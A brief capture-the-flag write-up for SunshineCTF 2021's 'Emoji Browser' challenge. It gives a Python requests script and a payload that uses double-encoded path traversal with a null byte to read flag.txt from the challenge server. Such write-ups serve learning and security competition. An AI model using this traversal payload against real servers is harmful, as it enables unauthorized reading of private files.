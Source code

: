 # Emoji Browser

![](../.gitbook/assets/image%20%2820%29.png)

Use pythin requests this chall is get request

```python
import requests

url = "http://emojibrowser.web.2021.sunshinectf.org:8080/emoji/..%252F..%252F..%252Fflag.txt%00"

r = requests.get(url , allow_redirects=False)

print(r.text)


```

```python
payload = emoji/..%252F..%252F..%252Fflag.txt%00
```



